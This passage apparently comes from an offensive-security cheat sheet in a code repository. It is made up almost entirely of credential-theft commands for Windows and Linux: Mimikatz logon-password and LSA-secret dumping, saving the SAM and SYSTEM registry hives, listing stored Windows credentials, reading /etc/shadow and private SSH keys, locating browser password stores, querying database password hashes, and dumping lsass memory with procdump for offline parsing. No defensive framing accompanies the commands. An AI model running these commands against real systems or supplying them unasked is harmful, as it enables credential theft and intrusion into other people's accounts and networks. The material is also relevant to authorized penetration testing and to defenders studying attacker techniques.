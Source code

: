 ### 3. Credential Dumping

**Windows Systems:**

```bash
# Mimikatz
mimikatz.exe
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets

# Windows Credential Manager
cmdkey /list
vaultcmd /listcreds:"Windows Credentials"

# SAM database
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
```

**Linux Systems:**

```bash
# /etc/shadow (requires root)
cat /etc/shadow

# SSH keys
cat ~/.ssh/id_rsa

# Browser saved passwords
# Chrome: ~/.config/google-chrome/Default/Login Data
# Firefox: ~/.mozilla/firefox/*.default/logins.json
```

### 4. Database Extraction

```sql
-- MySQL
SELECT user, password FROM mysql.user;

-- PostgreSQL
SELECT usename, passwd FROM pg_shadow;

-- MSSQL
SELECT name, password_hash FROM sys.sql_logins;
```

### 5. Memory Dumping

```bash
# Process memory dump
procdump -ma lsass.exe lsass.dmp

# Parse dump with Mimikatz
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
